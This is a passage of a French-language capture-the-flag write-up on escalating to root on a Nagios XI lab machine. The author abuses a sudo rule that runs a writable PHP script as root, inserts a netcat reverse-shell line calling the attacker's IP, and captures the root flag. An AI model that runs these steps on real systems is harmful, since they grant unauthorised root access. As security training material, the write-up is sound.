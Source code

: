 ```bash
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

On peut utiliser `awk` et `xargs` pour voir les permissions des exécutables mentionnés :

```bash
nagios@midwest:~$ sudo -l | grep NOPASSWD | awk '{ print $3 }' | sort | uniq | xargs ls -al
ls: cannot access '/etc/init.d/nagios': No such file or directory
-rwxr-xr-x 1 root root    2110 Jan 22  2021 /etc/init.d/npcd
lrwxrwxrwx 1 root root      21 Jan 22  2021 /usr/bin/php -> /etc/alternatives/php
-r-xr-x--- 1 root nagios  7714 Jan 22  2021 /usr/local/nagiosxi/scripts/backup_xi.sh
-r-xr-x--- 1 root nagios  1800 Jan 22  2021 /usr/local/nagiosxi/scripts/change_timezone.sh
-r-xr-x--- 1 root nagios 16332 Jan 22  2021 /usr/local/nagiosxi/scripts/components/getprofile.sh
-r-xr-x--- 1 root nagios  3809 Jan 22  2021 /usr/local/nagiosxi/scripts/manage_services.sh
-r-xr-x--- 1 root nagios  3820 Jan 22  2021 /usr/local/nagiosxi/scripts/manage_ssl_config.sh
-r-xr-x--- 1 root nagios  4894 Jan 22  2021 /usr/local/nagiosxi/scripts/reset_config_perms.sh
-r-xr-x--- 1 root nagios  2914 Jan 22  2021 /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
```

Aucun accès en écriture... mais qu'en est-il des scripts PHP exécutés par `/usr/bin/php` ?

```bash
nagios@midwest:~$ ls -al /usr/local/nagiosxi/scripts/send_to_nls.php
-rwxr-xr-x 1 nagios nagios 1534 Jan 22  2021 /usr/local/nagiosxi/scripts/send_to_nls.php
```

Bingo ! Je rajoute la ligne suivante :

```php
system("/usr/bin/nc -e /bin/bash 192.168.56.1 7777");
```

Et j'exécute :

```bash
nagios@midwest:/usr/local/nagios/libexec$ sudo /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php yop
```

Cette fois le shell est root, mission accomplie !

```bash
$ ncat -l  -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.105.
Ncat: Connection from 192.168.56.105:47878.
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
cat root.txt
0d599f0ec05c3bda8c3b8a68c32a1b47
```

*Publié le 16 février 2023*
